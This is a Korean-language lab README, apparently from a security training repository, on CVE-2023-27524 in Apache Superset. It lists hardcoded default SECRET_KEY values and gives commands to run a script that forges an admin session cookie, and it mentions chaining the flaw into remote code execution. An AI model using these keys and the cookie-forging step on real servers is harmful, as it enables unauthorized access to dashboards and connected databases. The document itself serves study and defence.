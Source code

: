 # Apache Superset Hardcoded JWT Secret Key Leads to Authentication Bypass (CVE-2023-27524)
> 화이트햇 스쿨 3기 23반 노은서 [Github 링크](https://github.com/nes1049/whitehat-school-vulhub/tree/main/superset/CVE-2023-27524)

[영문 버전](https://github.com/vulhub/vulhub/blob/master/superset/CVE-2023-37941/README.md) [중문 버전](https://github.com/vulhub/vulhub/blob/master/superset/CVE-2023-37941/README.zh-cn.md) 


## 개요

- 데이터 시각화 오픈소스 플랫폼인 Apache Superset에는 하드코딩된 JWT 비밀 키 취약점(CVE-2023-27524)이 존재
- Superset은 세션 쿠키를 서명하는 데 사용되는 SECRET_KEY 값을 기본값으로 제공함
- 관리자가 이 기본 키를 변경하지 않으면 공격자는 유효한 세션 쿠키를 위조하고 임의의 사용자 또는 관리자 권한을 가진 사용자로 인증할 수 있음
- 이를 통해 공격자는 Superset 대시보드, 연결된 데이터베이스에 무단으로 접근할 수 있음
- Python pickle 취약점인 [CVE-2023-27941](https://github.com/vulhub/vulhub/blob/master/superset/CVE-2023-37941/README.md) 과 결합되면 인증 우회 후 역직렬화 취약점을 통해 원격 코드 실행까지 가능


## 환경 구성

명령어를 사용해 Apache Superset 2.0.1 서버를 시작

```
docker compose up -d
```

- 서버를 열면, `http://your-ip:8088`를 통해 Superset 서버에 접속 가능
- default 로그인: admin / vulhub 


## PoC

Superset은 다음과 같은 `SECRET_KEY` 값 중 하나를 기본값으로 하드코딩해 사용함으로써 취약점 발생 원인을 제공함:

- `\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h` (version < 1.4.1)
- `CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET` (version >= 1.4.1)
- `thisISaSECRET_1234` (deployment template)
- `YOUR_OWN_RANDOM_GENERATED_SECRET_KEY` (documentation)
- `TEST_NON_DEV_SECRET` (docker compose)

다음 명령어로 [CVE-2023-27524.py](CVE-2023-27524.py)를 실행해 관리자의 세션(user_id=1)으로 위조된 쿠키를 생성

```bash
# 의존성 패키지 설치치
pip install -r requirements.txt

# user_id=1인 세션 쿠키 생성
python CVE-2023-27524.py --url http://your-ip:8088 --id 1 --validate
```

- 이 스크립트는 알려진 디폴트 SECRET_KEY 값들을 이용해 세션 쿠키의 크랙을 시도함
- 크랙에 성공하면, user_id=1(일반적으로 관리자)인 새로운 세션 쿠키를 생성해 로그인 인증


![](1.png)

이 JWT 토큰을 GET 메소드의 HTTP 헤더에 넣으면 `Cookie: session=eyJ...`, Superset 서버의 backend endpoint (데이터베이스)에 접근이 가능

![](2.png)

## 참고 문헌

- <https://www.horizon3.ai/attack-research/disclosures/cve-2023-27524-insecure-default-configuration-in-apache-superset-leads-to-remote-code-execution/>
- <https://github.com/horizon3ai/CVE-2023-27524>

